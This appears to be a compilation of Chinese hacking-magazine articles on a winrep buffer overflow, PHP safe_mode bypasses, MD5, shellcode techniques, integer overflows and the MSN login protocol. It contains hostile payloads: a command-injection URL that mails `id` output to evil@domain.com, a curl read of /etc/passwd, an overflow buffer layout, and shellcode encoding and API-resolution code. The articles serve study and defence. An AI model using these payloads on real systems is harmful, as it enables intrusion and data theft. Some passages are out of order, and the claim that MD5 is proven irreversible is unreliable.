凡是 Win2000 的用户，在系统目录 WINNT 下都会发现一个可执行文件 winrep，如图1。我相信很少人会去注意这个东西，但它却有着不错的功能：它能将你的系统信息收集起来，打包成压缩包，然后由你决定是否提交给微软工程师帮你解决问题。它的使用界面如图2。


我们先利用 WINREP 产生一个信息收集包，然后打开其中的 BRT 文件，在 Description 一项后面加上 4006 个 A 字母（为什么是 4006 个呢？先不告诉你，往后看，谜底即将揭晓），如图3所示。然后保存，现在我们再用 WINREP 打开看看，什么？你看到了什么？如图4所示。


可以看到它已将我的主机名显示出来了。它生成的信息包文件是以 CAB 为扩展名的，其中包括两个文件：一个是 BRT 文件，一个是 NFO 文件。这些文件中包括了所有系统软件、硬件信息。可谁能想到，就是这样一个用来解决问题的工具却有个致命漏洞，似乎可以控制用户主机……心动了吧！好，那现在就让我们开始走进微软之旅吧！

是的，我们触发了漏洞，问题果然存在！现在让我们先倒回去具体分析一下，应该提高提高自己水平，不能老去用别人写好的程序嘛！动态反汇编 WINREP 程序，找到函数 setdlgitemtextw，注意看图5所示。

漏洞是我们偶然测试发现的，查 GOOGLE 没看到相关信息，如果你知道更多请多多指教！

在初次使用 WINREP 时，我们可以选填图2的三个地方。我反汇编了这个工具，发现它使用 setdlgitemtextw 函数，这个函数有三个参数，具体描述如下：

```c
SetDlgItemTextW(
  HWND hDlg,
  int nIDDlgItem,
  LPCWSTR lpString
)
```

函数 setdlgitemtextw 在这里调用，问题就在这里。可是程序分配给字符串的空间有多大呢？看到那个 `PUSH .1F41` 了吗？对，就是它，这个就是程序分配给字符串的空间。这是在字符串转换成宽字符串后的保存空间，所以前面我们填了 4006 个 A 字母，转换成宽字符后成了 8012 个字符，而程序只给了 `1F41=8001` 个字符空间，所以漏洞就发生了。

好，现在漏洞是有了，可是如何利用呢？要知道宽字符下的溢出漏洞可不是那么简单，这对于 SHELLCODE 的要求、跳转地址的要求都很高，都要求为双字节格式。例如 A 对应的机器码 `0x41`，再被宽字符处理后就成了 `0x00 0x41` 的格式，可是我们知道 `0x00` 会截断我们的 SHELLCODE，普通的 SHELLCODE 无法成功执行。在我郁闷了两天后，我终于写了个双字节下的 shellcode。

我们看到这里有一个字符串，是宽字符的。在我的经验里，如果程序在处理宽字符和 ASCII 字符转换时预留空间不够，会导致溢出，例如那个 WEBDAV 漏洞等等。于是我们先停止分析，来试一下看看我们能否触发这种问题！


图5

看到了吗？我们成功了！由于是使用了硬编码，我没有写利用程序……你可以试试。感谢黑X给我机会和大家交流，我会再给大家带来几个未发布的漏洞。（本文涉及的 winrep 程序相关代码和 cab 文件光盘中有收录。）

正当我准备发布时，忽然发现如图6所示。


图6


图7

看到吗？我真是太大意了，在整个程序中其实只是在写文件时会进行宽字符转换，而之后程序并没有再处理什么字符转换问题，而是直接调用函数 senddlgitemmessageW 将字符串发送进窗口控件中，如图7所示。

这下简单了，我们只要按照普通的利用方式，将 BRT 文件中 Description 一项后面的字符串写成如下格式：

```text
[AAAAAAAAAAAA···][NOP···][SHELLCODE][JMP ESP-1F10]
```

可以看到这里 `ESP-1F10` 这样一个地址是很难找的，但我告诉你这个是可以找到的……好，现在让我们看一下成果，请对比图8、图9。


图8


图9


# 超越 PHP 的安全模式

如果你学过 PHP，一定听说过 PHP 的安全模式：safe mode。与 magic_quotes_gpc 的功能类似，safe mode 主要用来保护 PHP 服务器的安全性能。但比起 magic_quotes_gpc，safe mode 的功能更为灵活和强大。

目前，很多人特别是 ISP 都使用了 PHP 的安全模式。要详细理解 safe mode 的内容，建议你参考 san 的《PHP 安全配置》。打开 safe_mode，会增加如下限制：

- 限制某些内容不可以被执行
- 限制个人目录可以被使用
- 某些文件访问需要同属主权限
- 禁止部分高风险功能

目前在许多虚拟主机上，safe mode 都是打开的，从而避免用户执行系统命令和随意访问其他用户的文件。被安全模式限制或屏蔽的函数可以参考《PHP 手册》。

怎么才能知道服务器上 safe mode 是“ON”还是“OFF”呢？你可以使用 PHPINFO() 函数或者以下几行代码查看：

```php
<?php
echo "safe_mode:".(get_cfg_var("safe_mode") ? "ON" : "OFF")."<br>";
echo "disable_functions:".get_cfg_var("disable_functions");
?>
```

### 一、认识 safe mode

PHP 的安全模式是为了解决共享服务器（shared-server）而设立的。在结构上，通过修改 WEB 服务器层或操作系统层来解决这个安全问题都显得不现实。

这对于 ISP 来说是一个伟大的选项，同时它也能极大地改进 PHP 的安全性。

```php
$dis_func();
echo($dis_func);
?>
```

当 safe mode 一项的参数为 “ON” 时，用 PHP 脚本在服务器上运行系统命令（以及指定的 disable function），或者打开没有权限的目录/文件时，脚本就会运行出错：


同时脚本终止运行，如下图所示。


由此可见，safe mode 对于保护 PHP 服务器，尤其是多用户虚拟主机的安全尤为重要。一些 PHP 程序员对 magic_quotes_gpc 和 safe mode 的功能常有怀疑和抱怨，实际上这种特性对于保护服务器安全却是极为重要。

### 二、突破 safe mode

safe mode 的功能固然强大，但要突破它也并不是没有可能。下面我们便来举几个例子。

#### 例一、利用 PHP 本身的漏洞

- 1. 利用 PHP mail() 任意指令执行漏洞：
  - PHP-4.2.2 以下到 PHP-4.0.5 版本存在 mail 函数绕过 safe_mode 限制执行命令漏洞。
  - 在特定版本中可通过参数拼接 shell 命令触发执行。

```php
mail('foo@bar.com', 'bar', '$bar', '...');
```

执行如下 URL：`http://foo.com/evil.php?bar=;/usr/bin/id|mail evil@domain.com`

这将 `id` 执行的结果发送给 `evil@domain.com`。对于 4.0.6 至 4.2.2 的 PHP 突破 safe_mode，利用 sendmail 的 `-C` 参数，系统必须使用 sendmail。

- 2. 利用 PHP JPEG 文件处理不正确远程任意指令执行漏洞：
  - PHP 在处理 JPEG 图像文件时存在问题。
  - 在 `exif_read_data()` 函数中可通过超长 sectionname 数据造成缓冲区溢出，从而以 WEB 进程权限执行命令。

- 3. 利用 PHP cURL 函数允许脚本绕过 `open_basedir` 目录限制漏洞：
  - 通过 cURL（libcurl）相关调用可绕过 `php.ini` 中的 `open_basedir` 限制并访问其他目录。

```php
<?php
$ch = curl_init('file:///etc/passwd');
$file = curl_exec($ch);
echo $file;
?>
```

实际上，PHP 有着丰富的函数库，即使 safe_mode=on，仍可通过替代函数实现部分系统操作，例如用 `opendir` 代替 `ls` 或 `dir`。

```php
<?php
$dir='/tmp/';
if ($dh=opendir($dir)) {
  while (($file=readdir($dh))!==false) {
    print "filename:$file";
  }
  closedir($dh);
}
?>
```

#### 例二、利用 COM()+Win 下的 WSH/FSO 组件

PHP 的 COM 函数仅可用于 PHP 的 Windows 版本。它通过组件化调用机制（RPC/COM）执行操作，可调用 WSH/FSO 组件执行系统命令，并可隐藏实现细节。

一种带基础对象的超级远程调用机制（Remote Procedure Call, RPC）使 COM 便于执行从接口中分离的代码；在 Win32 环境下对开发者有吸引力。

通过 COM 函数，可以轻易调用 WIN32 下的 WSH/FSO 组件来执行系统命令。以下是一个使用 COM 函数载入 WSH 和 FSO 的例子：

```php
<?php
// 用 COM 函数执行系统命令
function cmdrun($api){ ... }
function regretrieve($apilocation,$nom){ ... }
function put_registre($apilocation,$nom,$valor,$tipus='REG_SZ'){ ... }

$wshShell = new COM('WScript.Shell');
$exFSO    = new COM('Scripting.FileSystemObject');
// 省略若干注册表与文件操作代码
?>
```

利用以上代码，你将可以在 Win32 下轻易突破 safe mode。近期也有关于 safe mode 在 WIN 下 BUG 的公开讨论。

#### 例三、利用 dl()/Java Integration

使用 dl() 可以动态载入用户编写的扩展模块，而 Java 扩展模块是实验性的。

扩展模块的行为，包括其函数名称以及其它任何关于此模块的文档，可能会在没有通知的情况下随着 PHP 以后的发布而改变。PHP 官方网站提醒用户在使用本扩展模块的同时自担风险。

利用 dl()/Java Integration 都存在突破 safe mode 的可能，可惜目前还找不到相应的技术文档。

但还是强烈建议在服务器上打开安全模式，在一定程度上能够避免一些未知攻击。对程序员来说，启用 safe_mode 会有很多限制，可能对应用带来影响，所以还需要调整代码和配置才能和谐。

突破 safe mode 的方法有很多，重在能否灵活运用。关于 PHP 的安全模式就讨论到这里吧，有问题的话到 www.hackerxfiles.net 上和我讨论。再见！

### 三、总结

虽然在 PHP 中 safe_mode 并不是万能的（正如前面所说……）

# 深入浅出

王欣 / Navyseals

常常看见在软件注册与破解、口令保护、文件校验等各类安全文章中简单提到 MD5 算法，但都仅限于简单解释。于是打算用比较通俗易懂的文字将散列函数、MD5 算法及其常见应用做一个详细介绍。

### 一、初识散列函数

在关于脚本入侵的文章中，很多人会看到类似 `d9729feb74992cc3482b350163a1a010` 这样的字符串；在软件破解中也常见注册码为类似 16 进制组成的字符串；下载软件时也会看到“文件指纹”或“md5 值”。这些都是经过散列函数变换的结果。

> 散列函数（Hash 函数）通常以变长报文 M 作为输入，产生定长散列码 H(M) 作为输出。输入报文中任意比特改变都会引起散列码变化。

通俗地说，散列函数像一个黑盒子，可以接收任意大小输入，只输出固定长度字符串。可以把输入理解为生物特征，把散列码理解为提取后的 DNA“指纹”或“摘要”。

### 二、散列函数的性质

散列函数的目的是为文件、报文或分组数据产生鉴别符。设散列函数为 H(m)，其设计至少应考虑以下方面：

- 1. H 能用于任何大小的数据分组；
- 2. H 产生定长输出；
- 3. H 具有单向性（由报文生成摘要容易，反向恢复困难）；
- 4. 弱抗冲突：给定 x，寻找 x≠y 且 H(x)=H(y) 在计算上不可行；
- 5. 强抗冲突：寻找任意 x,y 使 H(x)=H(y) 在计算上不可行。

进一步通俗解释：输入可长可短（如短字符串、长文本、甚至 2G 文件）；输出长度固定（如 16 或 32 位）；单向性意味着难以从摘要反推原文；抗冲突性保证不同输入很难得到同一摘要。

例如输入 10 万字文本可得到 32 位摘要；想通过该摘要还原原文几乎不可能。又如系统入侵后拿到变换密文，也不能直接反推密码，通常只能靠穷举破解，因此散列函数常用于密码保护、文件校验和数字签名。

### 三、散列函数的攻击法

散列函数抗碰撞要求：寻找两条不同消息 M 与 M' 使 H(M)=H(M') 应当很难。这一性质主要用于防止所谓“生日攻击法（Birthday Attack）”。

如下：假设签名者将对 64 位的散列值使用其签名密钥签名。①伪造者先产生一份签名者会同意签名的明文，再根据这份明文在写法上或格式上进行改动（比如在文字间加空格，或者用意义相同但词句不同的语句），产生一组有同样意义的明文组合，其明文数量是 2 的 32 次方。伪造者另外产生一份意图伪造签名的明文，再使用相同的方法依据这份明文略作变动，产生一组具有相同意义的明文组合，其明文数量也是 2 的 32 次方。②在这两组各含 2 的 32 次方份明文中找出一对明文具有相同的散列值。根据“生日悖论”理论，能找到这对明文的概率是非常大的。若没找到，就再增加每组的明文数量，直到找到为止。③伪造者用第一组中找到的明文，也就是可以被签名者接受的明文，要求签名。这个数字签名可以被用来伪造第 2 组中找到的明文的数字签名。由此得到结论：64 位散列函数值是不够安全的。

以上方法是早期学者在理论上提出的攻击法。而前段时间山东大学的王小云教授在散列函数中最常用的 MD5 等算法的数字签名等应用中，找到了产生两个摘要相同消息的方法。但是，MD5 在保护密码的应用中，因为在数学上被严格证明不可逆，所以仍然是可靠的。

### 四、MD5 算法

MD5 是美国麻省理工学院的 Rivest 教授设计的，这个方法是在 MD4 上加以改进的。MD5 的全称是 Message-Digest Algorithm 5，Message-Digest 泛指字节串（Message）的 Hash 变换，就是把一个任意长度的字符串变换成一定长度的数据。MD5 将任意长度的“字节串”变换成一个 128bit 的大整数，并且它是一个不可逆的字符串变换算法。换句话说，即使你看到源程序和算法描述，也无法将一个 MD5 值变换回原始字符串。

MD5 可以输入任意长度的明文，产生 128 位摘要。任意长度的明文首先需要添加位，使明文总长度为 448（512-64）在模 512 中同余。在明文后添加位的方法是：第一个添加位是“1”，其余都是“0”。然后再将真正明文的长度（没有添加位以前，以 64 位表示）附加于前面已添加过位的明文后。此时明文正好是 512 的倍数。由于设计者当初的主要构想是考虑了 32 位处理器为基础的体系结构，因此 MD5 内所有基本运算都是以 32 位字为运算单元。

### 五、MD5 的运算步骤

MD5 主要有 4 轮非常相似的运算。每轮包括 16 个类似步骤。每一个步骤的数据处理都是针对 4 个 32 位记录单元中的数据进行的。这 4 个记录单元的初始值以 16 进制表示如下：A=01234567，B=89ABCDEF，C=FEDCBA98，D=76543210。

经过 4 轮、共 64 个步骤运算之后，记录单元 A、B、C、D 中的 128 位即为中间散列函数值。当第一轮中的第一个步骤开始处理时，A、B、C、D 记录单元中的值先复制到另外 4 个记录单元 AA、BB、CC、DD 中。这 4 个值将在第 4 轮最后一个步骤与相关的 A、B、C、D 相加。在每一步骤的操作中，都将 A、B、C、D 其中 3 个记录单元中的记录数据以非线性方式处理，此结果再与 512 位明文分组中的一个 32 位子明文分组 M[K] 以及固定数 T[i] 相加。再将结果向左循环移动（Cyclic Shift）s 位，再与剩下的第四记录单元中数据相加。最后的 32 位结果将重新存入 A、B、C、D 中的一个记录单元。每一轮的操作中，MD5 使用不同的逻辑运算，将 3 个记录单元中的数据以非线性方式处理。详细算法步骤如下：

- 1. MD5 算法是对输入数据进行补位，使得数据位长度 LEN 对 512 求余结果为 448，即数据扩展至 K*512+448 位，即 K*64+56 个字节，K 为整数。具体补位操作：补一个 1，然后补 0 至满足上述要求。
- 2. 补数据长度：用一个 64 位数字表示数据原始长度 B，把 B 用两个 32 位数表示。这时，数据就被填补成长度为 512 位的倍数。
- 3. 初始化 MD5 参数：四个 32 位整数（A,B,C,D）用于计算信息摘要，初始化用的是十六进制表示的数字。
- 4. 处理位操作函数 X，Y，Z 为 32 位整数。
- 5. 主要变换过程：使用常数组 T[1...64]，T[i] 为 32 位整数并用 16 进制表示，数据用 16 个 32 位整数数组 M[] 表示。
- 6. 输出结果。

```c
A=0x01234567
B=0x89abcdef
C=0xfedcba98
D=0x76543210
```

```c
F(X,Y,Z) = (X&Y) | (~X&Z)
G(X,Y,Z) = (X&Z) | (Y&~Z)
H(X,Y,Z) = X ^ Y ^ Z
I(X,Y,Z) = Y ^ (X|~Z)
```

```c
/* 处理数据原文 */
for i=0 to N/16-1 do
  /* 每一次，把数据原文存放在16个元素的数组X中 */
  for j=0 to 15 do
    Set X[j] to M[i*16+j]
  end
  /* Save A as AA, B as BB, C as CC, and D as DD */
```

```c
/* 第1轮 */
/* 以 [abcd k s i] 表示如下操作 */
a = b + ((a + F(b,c,d) + X[k] + T[i]) <<< s)
Do the following 16 operations
[ABCD 0 7 1] [DABC 1 12 2] ... [BCDA 15 22 16]
```

```c
/* 第2轮 */
/* 以 [abcd k s i] 表示如下操作 */
a = b + ((a + G(b,c,d) + X[k] + T[i]) <<< s)
Do the following 16 operations
[ABCD 1 5 17] [DABC 6 9 18] ... [BCDA 12 20 32]
```

```c
/* 第3轮 */
/* 以 [abcd k s i] 表示如下操作 */
a = b + ((a + H(b,c,d) + X[k] + T[i]) <<< s)
Do the following 16 operations
[ABCD 5 4 33] [DABC 8 11 34] ... [BCDA 2 23 48]
```

```c
/* 第4轮 */
/* 以 [abcd k s i] 表示如下操作 */
a = b + ((a + I(b,c,d) + X[k] + T[i]) <<< s)
然后进行如下操作：
[ABCD 0 6 49] [DABC 7 10 50] ... [BCDA 9 21 64]
然后进行如下操作：
A = A + AA
B = B + BB
C = C + CC
D = D + DD
end /* 结束此循环 */
```

## 六、字典攻击及其对抗方法

Md5 虽然在数学上被证明算法不可逆，但是很多论坛仍然在被人用程序跑出管理员口令。这是因为入侵者采用了字典法“暴力”破解口令，他们的方法如下：攻击者收集一个口令清单，比如 10 万个最常被用到的口令，然后计算所有这些口令的散列码。随后他会设法搞到合法用户的账户数据库，并将数据库中所有口令的散列码与他自己清单上的值进行比较，看看哪些是匹配的。有时候它可能会非常有效。因此，为了增加字典攻击的难度，可以在口令数据 M 后面串接一个被称作“Salt”的随机序列，例如从“A”到“Z”中的 10 个随机字符连接起来，然后经散列函数计算出散列码 H（M+Salt），最后将 Salt 值与散列码一起保存在账户数据库中（图1）。这样，利用 Salt 就使得字典攻击实际上无法实现，因为攻击者还得计算所有可能的 Salt 的散列函数值。


图1 口令数据的保护

通常地说，就是本来我们要把密码 123456 使用 Md5 算法变成“e10adc3949ba59abbe56e057f20f883e”的，但是破解的人知道我们的算法，所以他就准备好一个清单，上面是 1-999999 这样的数字，他把这些数字全部进行 Md5 的计算，看看谁的计算结果等于“e10adc3949ba59abbe56e057f20f883e”。这样破解者只要肯花时间，当然可以跑出我们的密码了。但是，如果我们在 123456 被进行计算以前，在它后面加上一个字符串（就是 salt），它就变成了 123456asdf，然后进行计算得到的就是“d53732ccbfa4af28b3c0e7665cf69009”了，这样破解者就是跑上无数次也得不到正确的东西了，因为他的破解算法都不正确了。所以我觉得有必要说明，像“文章系统”“下载系统”为什么非要用标准的 Md5 来保护口令呢？加一个 salt，表示小小变动一下，将会对破解者带来很大的困难。对算法没有深入研究的脚本人士来说，经过变形的算法是他们入侵系统的巨大障碍。

## 七、salt 的问题

如果入侵者能够得到 Salt，算法的安全仍然受到威胁，因为破解者完全可以为 salt 也准备一份字典来暴力破解。传统的 Unix 系统采用了多 Salt 的方法：采用 4096 种 Salt 来增加暴力破解的难度。当用户选择或是改变一个口令的时候，/bin/passwd 程序基于当天的时间和日期选择一个 Salt 值来保护口令。对于 70 年代末的硬件，这样的口令保护机制是非常牢固的。但是硬件的飞速发展使这样的方法不再可靠，一旦入侵者已经编好一个预计算好散列的字典，那么用户的口令只是一个简单的搜索过程，这种方式是很快的，当然也很消耗存储空间。特别是 Salt 使这种预计算的开销更大。没有 salt 时，攻击者对一个字典中每个单词的一次加密就够了，现在攻击者却需要对字典中每个单词进行 4096 次排列组合加密。但这种增加的复杂性对坚决的攻击者不能提供足够的抵御。对有 500000 个常见单词、姓名、口令和简单变体词的字典进行预计算需要 30GB 的硬盘。也许 10 年前这是不可逾越的硬件障碍，但是如今即使是 120G 的硬盘也很便宜。面对一个坚定的攻击者，多 Salt 的保护不再可靠。不过对于一般的论坛或者什么文章系统来说，这样的强度已经足够了，不过为了算法更加坚固，还可以像 QQ 的本地口令加密算法一样，反复地进行 Md5 计算，使得一次计算的时间长达数秒钟。


图2

这样，进行一次计算并不会耽误正常用户几秒钟时间，但是要暴力破解，计算几百万个可能的口令，需要的时间就是破解者不可承受的了。

## 八、编程应用

我想大多数的读者没有太多的精力去研究算法的具体过程，所以我把 Md5 算法写成了一个动态链接库文件，大家如果需要可以直接调用里面的函数即可。应用动态链接库的程序及源代码可以在光盘中找到。这个程序主要是做字符以及文件的 Md5 计算（图2），大家可以在源代码例子中学到如何进行编程应用。

（文本涉及的相关演示程序及源代码，光盘中有收录。）

# 注册码丢失，你会了吗？

前几天，一位同学 Q 我，说他的任务管理器被禁用了，要我帮忙。这个容易，毕竟咱看了这么久的《黑客X档案》嘛。于是给了他一个解除用的 REG 文件，让他导入注册表。但新问题随即而来：他的注册表也被禁用了。没办法，急出一身汗的我，翻来翻去，终于找到了解禁注册表的代码（“我的坏习惯，用不到的东西藏也藏不住……”）。我把解禁注册表的 REG 文件也发给他，让他导入。原以为已经圆满地完成任务了，没想到他却给了我三个字：不行啊。怎么会呢？看了一下他的屏幕，提示注册表已被禁用。郁闷，怎么会这样，这可是屡试不爽的方法啊。抱着打破砂锅问到底的精神，我在百度里翻阅无数资料（夸张了点……），终于让我找到原因了。问题就出在最后一步——导入注册表文件。我想了一下，如果注册表被禁用的话，还能导入注册表文件吗？正确的方法是打开“开始”->“运行”->CMD 窗口，输入 `reg import` 要导入的文件（不含引号），这样就可以导入了。

# 黑客研究院

janxin[Crackidz Group]

Shellcode 是溢出程序和蠕虫病毒的核心……（引言段，介绍 Shellcode 与漏洞利用背景）

## 一、什么是 Shellcode

我在这里简单讲一下，Shellcode 的实质是一段代码（也可以是填充数据）……一般可以获取权限。

## 二、Shellcode 编写考虑因素

Shellcode 一般作为数据发送给服务端造成溢出……但在编写过程中有些问题是一致的：

- 1. Shellcode 的编写语言
- 2. Shellcode 本身代码的重定位
- 3. Shellcode 中使用的 API 地址定位
- 4. Shellcode 编码问题
- 5. 多态技术躲避 IDS 检测

## 三、Shellcode 编写技术

### 1. Shellcode 编写语言

Shellcode 本质上可以使用任何编程语言，但需要提取其中机器码……汇编语言可控性更强。

如果想追求速度，C 是不错的选择……一旦写好模板，就省事许多。

```asm
void Shellcode()
{
  __asm {
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
  }
}
```

然后在 main() 中用函数指针操作和 memcpy 定位 shellcode……例如当前 shellcode 大部分是由 C 完成。

### 2. Shellcode 代码地址定位，获取程序 EIP

为什么要获取 EIP 呢？……可利用 CALL/POP 来实现。并提到 JMP ESP、CALL/POP EBX 等常见方法。

### 3. Shellcode 中的 API 地址定位

Shellcode 运行环境与病毒在某些方面类似……关键是理解 Windows DLL/PE 格式，并通过 Export 获取 API 地址。

```asm
push ebp
sub esp, 0x40
mov ebp, esp
...
mov eax, fs:[0x30]    ; PEB
mov eax, [eax+0x0c]   ; Ldr
mov eax, [eax+0x1c]   ; flink
...
search:
  dec ecx
  mov esi, [ebx+ecx*4]
  ...
  cmp [esi], eax
  jne search
...
; 解析 AddressOfNames / AddressOfFunctions
; 获取 GetProcAddress 地址
```

```asm
mov [ebp-40h], eax ; 获取 GetProcAddress 的地址并存储
```

接下来是使用 GetProcAddress() 和 LoadLibraryA() 获取其他需要函数了，和 C 没什么两样。

### 4. Shellcode 的编码问题

写过 Shellcode 的兄弟对这个应该很熟吧？例如：strcpy 函数中不能有 0x00，RPC DCOM 溢出时不能用 0x5c 等等。如果有这些字符，会导致服务中断 Shellcode，溢出失败。不同溢出对 shellcode 要求不同，当然需要精选字符来达到目的，简单点就是写一段代码，示例如下：

```c
for(i=0;i<SC_LEN;i++) {
    ch = sc_buff[i] ^ Enc_Key;
    // 对可能字符进行替换
    if(ch==0x1f || ch=='"' || ch=='\'' || ch=='\\' || ch=='\r' || ch=='\n' || ch==' ' || ch=='%') {
        buff[i] = 0;
        ++k;
        ch += 0x31;
    }
    // 将编码Code放在DecryptSc后
    buff[i+k] = ch;
    ++k;
}

// 解码时代码示例
jmp next
GetEncodeAddr:
```

```asm
pop edi
push edi
pop esi
xor ecx, ecx
DecryptLoop:
lodsb
cmp al, cl
jz shell
cmp al, 0x30 ; 判断是否为特殊字符
jz special_char_clean
store:
xor al, Enc_key
stosb
jmp DecryptLoop
special_char_clean:
lodsb
sub al, 0x31
jmp store
next:
call getEncodeAddr
```

这里只给了一个简单的例子，对 Unicode 编码有要求的，限于篇幅，这里就不详解了。

## 四、写在最后

编写调试 Shellcode 很是辛苦，但完成之后却有巨大的成就感。这里不是教你做 EXP 去害人，只是从研究角度出发，让大家了解这种技术，从而加以防范，为网络稳定安宁奉献自己的力量。

最后，我附带了一个作为示例的 Shellcode 代码，大家可以参考 Sample.cpp 来看看。


最近读了 vvv0830 和 xfocus team 的溢出、渗透文章，发现高手们都没有介绍一种溢出方式，就是整数溢出（也许以前都介绍过吧）。现在各大软件厂商对于软件的安全问题越来越重视，但不一定用了安全的函数就一定创造出了安全的程序，整数溢出就是这样。

整数溢出其实很简单，就像脚本攻击一样灵活，下面我们先看看导致整数溢出的三种常见操作：上溢和下溢、有符号与无符号、截断。

我也是菜鸟一只，所以就用很通俗的语言向大家解释一下。所谓上溢和下溢，就是指当一个正数大到极点就会变成负数，负数小到极点就会变成正数。关于符号，大家一定都知道有符号整数高位按位为 1，这是对 2 求补算法的结果。关于截断，它就和堆栈溢出的原理一样，是将一个很大的数放入一个小的变量里。但是这与堆栈溢出不同的是，堆栈溢出是超过的部分会外溢覆盖其他数据，而整数溢出则会进行截断，取它的 32 位或 16 位数（要看具体的操作系统）。

下面我们通过几个例子来学习，了解一下整数溢出。

### 1. 上溢和下溢

```c
bool func(unsigned int cbSize){
    if (cbSize < 1024) {              // (1)
        char* buf = new char[cbSize-1];
        memset(buf, 0, cbSize-1);
        delete buf;
        return true;
    } else {
        return false;
    }
}
```

代码乍一看的确没有什么错误，可是前面讲过，当一个正数大到极点就会变成一个负数，一个负数小到极点就会变成一个正数。对照这句话再看一遍代码，也许你就会发现一点问题：如果 cbSize=0，那会出现什么情况？首先它会通过代码中（1）的检验，接着在代码（2）中发生“0-1=-1”，可是 cbSize 是无符号整数，也就是不能表示负数，-1 就是无符号数的 0xFFFF，后果可想而知。

这种类型的安全问题在现在的溢出漏洞中非常常见……下面我们再看一个有问题的代码。

```c
bool func(char *s1, unsigned int len1,
          char *s2, unsigned int len2) {
    if ((1 + len1 + len2 > 64))
        return false;
    char *buf = (char*)malloc(len1 + len2 + 1);
    if (buf) {
        StringCchCopy(buf, len1 + len2, s1);
        StringCchCat(buf, len1 + len2, s2);
    }
    if (buf) free(buf);
    return true;
}
```

同样，代码看起来编写得很好，该做的检查都做了，但百密必有一疏，这段代码中就存在整数上溢的问题……利用方式也和普通的堆溢出没有太大的区别。

### 2. 有符号与无符号

```c
bool func(char *s1, int len1,
          char *s2, int len2) {
    char buf[128];
    if ((1 + len1 + len2 > 128))
        return false;
    if (buf) {
        strncpy(buf, s1, len1);
        strncat(buf, s2, len2);
    }
    return true;
}
```

有了前面的基础，再来看一下这段代码一定很容易发现问题。

由于 len1 和 len2 都是有符号整数，因此只要 len2 为负值、len1 为正值，len1 就可以大于 128 个字节，到 strncpy 的调用将会溢出 buf 缓冲区。

### 3. 截断问题

```c
bool func(byte *name, DWORD cbBuf) {
    unsigned short cbCalculatedBufSize = cbBuf;
    byte *buf = (byte*)malloc(cbCalculatedBufSize);
    if (buf) {
        memcpy(buf, name, cbBuf);
        if (buf) free(buf);
        return true;
    }
    return false;
}
```

最后一种整数溢出类型：截断问题。首先解释一下 DWORD 就是 unsigned long……在后面的拷贝中又将 0x00010020 个字节的数据拷贝入其中发生溢出。

上面就是常见的三种整数溢出问题，在示例代码中程序员不仅做了严格的检查，应用了安全函数，但还是没有彻底消除缓冲区溢出漏洞的存在。

# 针对整数溢出的防范措施

- 使用最高的警告级别 /W4 来编译 C 和 C++ 代码；
- 对于缓冲区大小和元素计数，尽量使用无符号参数；
- 警惕内存分配函数（new、malloc 等）的有符号参数；
- 从其他平台或编译器迁移时，谨慎处理不同的数据大小；
- 若代码执行乘法等运算后用于分配缓冲区大小，确保结果在可容纳范围内。

好了，本文就探讨到这里。由于本人水平有限，相信文章中一定存在不少错误，希望读者们见谅并希望指正。


# 解析 MSN 登录的秘密，我知道！

MSN Messenger 是 Microsoft 开发的聊天工具，目前在国内拥有很大的用户群。使用 MSN Messenger 可以与他人进行文字聊天、语音对话、视频会议等即时交流，还可以通过此软件来查看联系人是否联机等。当然，方便归方便，现在为了提高工作效率，许多单位会想尽办法在内网禁止用户使用 MSN、QQ、联众等聊天软件；同时，不甘寂寞的用户也想尽办法来应对这些措施。两相较量，到底应该谁胜？本文将细致地分析登录方法及基本原理，然后从禁用和反禁用的角度彻底了解如何阻断连接和突破限制。

用户必须升级到较高的版本，因为服务器对 MSNP8 以下的版本已经不再支持。这就是我们在刚才截获的数据中，为什么可以看到“MSNP11 MSNP10”的缘故了。

那么，CVR、VER、USR 这些数据是什么意思呢？客户端与服务器间信息都是以命令格式传递的。命令被描述为三个字符、所有字母大写的命令代号。所有一般命令都有一个事务 ID，并且以新行结束。客户端发送的命令一般会使服务器响应一个及以上的命令。这些数据是 MSN Messenger 命令，它们使用了纯 ASCII 码，同时对非 ASCII 字符使用 URL 编码。

```
XXX<SP> TrID <SP> PARAM1 <SP> PARAM2… <CRLF>
```

其中，`<SP>` 是空白字符，`<CRLF>` 是回车换行，XXX 是一个 3 字符的命令串，TrID 是一个流水号，PARAMx 是参数，[ ] 内是可选项。关于这些命令的含义，可以参考下表（列举部分）：

## 一、登录数据和 MSN Messenger 命令

一般来说，用户电脑上的程序统称为 MSN Messenger“客户端”，它通过 Internet 连接到一个 MSN Messenger“服务器”。也就是说，客户端通过服务器与其他客户端交互信息。在大多数时间里，用户的客户端与服务器会话，然后由服务器来处理这些会话信息并通知其他人。了解之前，我们使用 Sniffer NT 来截获登录时的数据，如图 1。


图 1

| 命令 | 来源 | 去向 | 说明 |
|---|---|---|---|
| CHG | Client | NS | 发出变更状态的请求。 |
| CHG | NS | Client | 返回改变状态的应答。 |
| CHL | NS | Client | 服务器发出验证码要求。 |
| CVR | Client | NS | 发出客户端 OS、语言、MSN Messenger 版本等信息。 |
| CVR | NS | Client | 返回推荐版本、升级位址等信息。 |
| INF | Client | NS | 询问服务器支持的认证方式。 |
| INF | NS | Client | 返回服务器所支持的认证方式。 |
| MSG | Client | SS | 发送消息到其他用户（聊天对象）。 |
| MSG | SS | Client | 传送其他用户消息到客户端。 |
| SYN | Client | NS | 客户端-服务器同步。 |
| URL | Client | NS | 发出获取 MSN 服务 URL 的请求。 |
| URL | NS | Client | 返回获取 URL 请求的应答。 |
| USR | All | All | 声明、传送、鉴别用户身份。 |
| VER | Client | NS | 协商 MSN Messenger 协议版本。 |
| XFR | Client | NS | 发出分配 SS 的请求。 |
| XFR | NS | Client | 返回分配 SS 请求的应答。 |

从截获的登录数据我们可以看到，在“数据”一栏中，有很多类似 CVR、VER、USR 等开头的数据，登录连接时还用到了 TCP/1863 和 TCP/443 这两个端口，它们记录了 MSN Messenger 登录的整个过程。在图 1 中，我们看到了这样一条记录：“VER 145 MSNP11 MSNP10 CVR0”。

要回答这个问题，我们首先就要谈到 MSN Messenger 协议了。1999 年，Microsoft 向 IETF（Internet Engineering Steering Group）提交了一份“MSN Messenger Service 1.0 Protocol”草案，这是最初版本的 MSN Messenger 协议。不同的协议经常被写为“MSNP9”“MSNP10”“MSNP11”等。近几年中，MSN 已历经数次修订，目前 MSN Messenger 的协议已经到了第 12 版，简称 MSNP12。现在，我们使用比较广泛的 MSN7.0 支持的协议是 MSNP10 和 MSNP11。

